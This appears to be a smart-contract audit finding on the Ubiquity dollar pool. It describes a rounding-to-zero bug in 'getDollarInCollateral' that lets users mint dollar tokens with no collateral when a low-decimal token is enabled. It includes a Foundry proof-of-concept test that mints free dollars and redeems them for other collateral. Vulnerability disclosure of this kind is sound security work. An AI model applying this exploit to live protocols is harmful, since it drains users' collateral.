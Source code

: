 Mythical Oily Goldfish

high

# Users can mint dollar tokens for free, allowing them to drain protocol's collateral

## Summary

**NB: According to the contest's docs the only ERC20 tokens that'll interact with the protocol are `LUSD` and `DAI`, which are both 18 decimals, but for later when more non-18 decimal tokens are enabled (the current version of the code supports these tokens) it should be handled explicitly.**

Users in `UbiquityPool` can provide an amount of "enabled" collateral and get some dollar token minted for them in return, this is considered enabled if the dollar price is above or equal to a `mintPriceThreshold` that is set by an admin. However, in case some collateral tokens with decimals <18 were enabled in the protocol, users can abuse the `getDollarInCollateral` function to mint some dollar tokens while providing 0 collateral tokens. This allows them later to redeem those dollar tokens and get another type of collateral in return, that way users gain an "illegal" profit.

## Vulnerability Detail

When calling `mintDollar` the protocol calculates the needed collateral that should be transferred from the user using `getDollarInCollateral`, however, in some cases, an example below `getDollarInCollateral` returns 0, allowing users to mint dollar tokens for free.

Assume we have the following:
* `dollarAmount`: 1e11
* `UBIQUITY_POOL_PRICE_PRECISION`: 1e6
* Collateral X having 6 decimals, `poolStorage.missingDecimals[collateralIndex]`: 12
* `collateralPrices[collateralIndex]`: 1e6

`getDollarInCollateral` function will do the following equation `((1 * 10^11) * 10^6) / 10^12 / 10^6` which ends up as `0.1 ~= 0`, allowing users to mint 1e11 dollars for free.

We added a couple of changes to the implementation of `MockERC20`, to be the following:
```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity 0.8.19;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    uint8 internal __decimals;

    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol) {
        __decimals = _decimals;
    }

    function mint(address to, uint256 value) public virtual {
        _mint(to, value);
    }

    function burn(address from, uint256 value) public virtual {
        _burn(from, value);
    }

    function decimals() public view virtual override returns (uint8) {
        return __decimals;
    }
}
```

### POC Test

```solidity
function test_bug_freeDollars() public {
    // A 6 decimals collateral token is added/enabled
    vm.startPrank(admin);
    MockERC20 collateralToken2 = new MockERC20("COLLATERAL2", "CLT2", 6);
    uint256 poolCeiling = 50_000e18;
    ubiquityPoolFacet.addCollateralToken(
        address(collateralToken2),
        address(collateralTokenPriceFeed),
        poolCeiling
    );
    ubiquityPoolFacet.setCollateralChainLinkPriceFeed(
        address(collateralToken2),
        address(collateralTokenPriceFeed),
        1 days
    );
    ubiquityPoolFacet.toggleCollateral(1);
    ubiquityPoolFacet.setFees(1, 10000, 20000);
    ubiquityPoolFacet.setPriceThresholds(1000000, 1000000);
    vm.stopPrank();

    uint256 _100ETH = 100e18;

    // Deposit 100 ETH of the 18 decimals collateral token into the pool
    collateralToken.mint(address(ubiquityPoolFacet), _100ETH);

    // User has 0 collateral2 (6 decimals) and 0 Dollars
    assertEq(collateralToken2.balanceOf(address(user)), 0);
    assertEq(collateralToken.balanceOf(address(user)), _100ETH);
    assertEq(dollarToken.balanceOf(address(user)), 0);

    // User mints 1e11 dollars, while providing collateral2 (6 decimals) as collateralIndex
    vm.prank(user);
    ubiquityPoolFacet.mintDollar(1, 1e11, 0, _100ETH);

    // User dollar balance increases while having 0 collateral2 (6 decimals)
    assertGt(dollarToken.balanceOf(address(user)), 0);

    // User redeems all his dollars for collateral (18 decimals)
    vm.prank(user);
    ubiquityPoolFacet.redeemDollar(0, 1e9, 1);

    vm.roll(3);

    // User collects redemption
    vm.prank(user);
    ubiquityPoolFacet.collectRedemption(0);

    // User collateral (18 decimals) balance increases as he redeemed his "free" dollars
    assertGt(collateralToken.balanceOf(address(user)), _100ETH);
}
```

## Impact

The freely minted dollars can be later redeemed, to receive an amount of collateral, and users can drain the supply of collateral as they didn't provide any while minting.

## Code Snippet

https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L284-L294

## Tool used

Manual Review + vs code

## Recommendation

Refactor the logic that calculates the collateral needed to account for the case when it's equal to zero.